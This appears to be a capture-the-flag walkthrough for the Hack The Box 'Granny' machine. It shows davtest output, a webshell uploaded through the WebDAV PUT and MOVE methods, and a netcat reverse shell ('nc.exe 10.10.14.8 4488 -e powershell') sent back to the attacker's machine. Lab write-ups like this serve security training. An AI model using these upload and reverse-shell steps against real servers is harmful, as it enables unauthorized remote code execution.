     EXEC	jsp	FAIL
    EXEC	html	SUCCEED:	http://10.10.10.15/DavTestDir_YDySC7gsiCC/davtest_YDySC7gsiCC.html
    EXEC	jhtml	FAIL
    EXEC	cfm	FAIL

    ********************************************************
    /usr/bin/davtest Summary:
    Created: http://10.10.10.15/DavTestDir_YDySC7gsiCC
    PUT File: http://10.10.10.15/DavTestDir_YDySC7gsiCC/davtest_YDySC7gsiCC.php
    PUT File: http://10.10.10.15/DavTestDir_YDySC7gsiCC/davtest_YDySC7gsiCC.txt
    PUT File: http://10.10.10.15/DavTestDir_YDySC7gsiCC/davtest_YDySC7gsiCC.pl
    PUT File: http://10.10.10.15/DavTestDir_YDySC7gsiCC/davtest_YDySC7gsiCC.jsp
    PUT File: http://10.10.10.15/DavTestDir_YDySC7gsiCC/davtest_YDySC7gsiCC.html
    PUT File: http://10.10.10.15/DavTestDir_YDySC7gsiCC/davtest_YDySC7gsiCC.jhtml
    PUT File: http://10.10.10.15/DavTestDir_YDySC7gsiCC/davtest_YDySC7gsiCC.cfm
    Executes: http://10.10.10.15/DavTestDir_YDySC7gsiCC/davtest_YDySC7gsiCC.txt
    Executes: http://10.10.10.15/DavTestDir_YDySC7gsiCC/davtest_YDySC7gsiCC.html

  Unfortunatley we are unable to upload aspx, otherwise this would be an easy webshell. However, method 'MOVE' is allowed,
  meaning we can move already uploaded files and change their filename (and ending).

    [root:/git/htb/granny]# mv shell.aspx shell.txt                                                                                   (master✱)
    [root:/git/htb/granny]# curl http://10.10.10.15/ --upload-file shell.txt                                                          (master✱)
    [root:/git/htb/granny]# curl -X MOVE --header "Destination:http://10.10.10.15/shell.aspx" http://10.10.10.15/shell.txt

  Browse for RCE: http://10.10.10.15/shell.aspx

  OR USING CADAVER:
    cadaver http://granny.htb
    mput fil.txt
    mv fil.txt fil.aspx


2. Executing nc64.exe for a reverse shell directly through my smb share doesn't work, so upload nc64.exe the same way.

    [root:/git/htb/granny]# cp /opt/nc64.exe nc64.txt
    [root:/git/htb/granny]# curl http://10.10.10.15/ --upload-file nc64.txt                                                           (master✱)
    [root:/git/htb/granny]# curl -X MOVE --header "Destination:http://10.10.10.15/nc64.exe" http://10.10.10.15/nc64.txt

  Enumerating the box we find that nc64.exe is uploaded to 'c:\Inetpub\wwwroot\nc64.exe'
  Trying to execute the binary gives nothing: c:\Inetpub\wwwroot\nc64.exe 10.10.14.8 4488 -e cmd
  Lets try nc.exe instead;
    [root:/git/htb/granny]# mv nc.exe nc.txt                                                                                          (master✱)
    [root:/git/htb/granny]# curl http://10.10.10.15/ --upload-file nc.txt                                                             (master✱)
    [root:/git/htb/granny]# curl -X MOVE --header "Destination:http://10.10.10.15/nc.exe" http://10.10.10.15/nc.txt
    Execute RCE: c:\Inetpub\wwwroot\nc.exe 10.10.14.8 4488 -e powershell
